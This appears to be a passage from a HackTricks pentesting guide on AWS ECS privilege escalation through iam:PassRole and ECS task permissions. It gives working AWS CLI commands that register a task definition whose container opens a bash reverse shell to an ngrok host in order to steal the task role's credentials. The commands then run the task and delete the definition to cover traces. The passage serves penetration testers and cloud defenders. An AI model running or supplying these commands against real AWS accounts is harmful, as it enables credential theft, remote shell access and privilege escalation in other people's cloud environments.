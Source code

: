 # AWS - ECS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## ECS

More **info about ECS** in:

{{#ref}}
../aws-services/aws-ecs-enum.md
{{#endref}}

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:RunTask`

An attacker abusing the `iam:PassRole`, `ecs:RegisterTaskDefinition` and `ecs:RunTask` permission in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it**.

```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --requires-compatibilities "[\"FARGATE\"]" \
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

# Run task definition
aws ecs run-task --task-definition iam_exfiltration \
    --cluster arn:aws:ecs:eu-west-1:947247140022:cluster/API \
    --launch-type FARGATE \
    --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-e282f9b8\"]}}"

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```

**Potential Impact:** Direct privesc to a different ECS role.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`

Just like in the previous example an attacker abusing the **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`** permissions in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it**.\
However, in this case, a container instance to run the malicious task definition need to be.
